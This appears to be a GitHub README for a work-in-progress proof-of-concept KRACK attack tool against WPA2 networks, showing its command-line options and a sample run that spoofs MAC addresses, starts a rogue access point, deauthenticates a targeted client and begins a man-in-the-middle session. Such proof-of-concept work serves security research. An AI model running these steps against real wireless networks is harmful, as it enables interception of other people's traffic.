 # [WORK IN PROGESS] PoC Krack (Key Reinstallation AttaCKs)

Proof of concept for Krack attack using channel-based MitM

## Theory

French article on [hackndo](http://beta.hackndo.com/krack/)

## Environment

WPA2 with CCMP

## Usage

```
# ./Krack.py -h
usage: Krack.py [-h] [-d] -a ACCESS_POINT -i IFACE_AP -b CLIENT -j
                IFACE_CLIENT -c CHANNEL

optional arguments:
  -h, --help            show this help message and exit
  -d, --direct          Skip channel and monitor settings
  -a ACCESS_POINT, --access_point ACCESS_POINT
                        Enter the SSID of the specific access point to target
  -i IFACE_AP, --iface_ap IFACE_AP
                        Enter the SSID of the specific access point to target
  -b CLIENT, --client CLIENT
                        Enter the MAC address of the specific client to target
  -j IFACE_CLIENT, --iface_client IFACE_CLIENT
                        Enter the SSID of the specific access point to target
  -c CHANNEL, --channel CHANNEL
                        Choose channel on which the targeted access point is
                        listening on

# ./Krack.py -a hackndo_ssid_test -i wlan1 -b "ab:cd:0a:0b:11:22" -j wlan0 -c 11
[*] Turning off both interfaces
[*] Setting interface wlan1 on channel 11
[*] Interface wlan1 is on channel 11
[*] Setting interface wlan0 on channel 4
[*] Interface wlan0 is on channel 4
[*] Starting monitor mode for wlan1
[*] Interface wlan1 is now in monitor mode
[*] Starting monitor mode for wlan0
[*] Interface wlan0 is now in monitor mode
[*] Turning on both interfaces
[*] Trying to find hackndo_ssid_test MAC address
[*] MAC Found ! 0e:cc:46:8a:b1:09
[*] Jammer initialized correctly
[*] Sniffing an AP Beacon...
[*] AP Beacon saved!
[*] Sniffing an AP Probe response...
[*] AP Probe response saved!
[*] Updating wlan1 MAC address to ab:cd:0a:0b:11:22 (Client MAC)
[*] wlan1 MAC address update successful
[*] Updating wlan0 MAC address to 0e:cc:46:8a:b1:09 (Real AP MAC)
[*] wlan0 MAC address update successful
[*] Rogue AP started. Sending beacons...
[*] Running main loop
[*] Starting deauth on AP 0e:cc:46:8a:b1:09 (hackndo_ssid_test) and client ab:cd:0a:0b:11:22...
[*] Probe request to our AP
[*] Client authenticated to our AP!
[*] MitM attack has started
[*] Deauth stopped
```

## TODO

* For now, when jamming real AP on its channel, client won't hop on another channel. Need to find a way to make it switch.
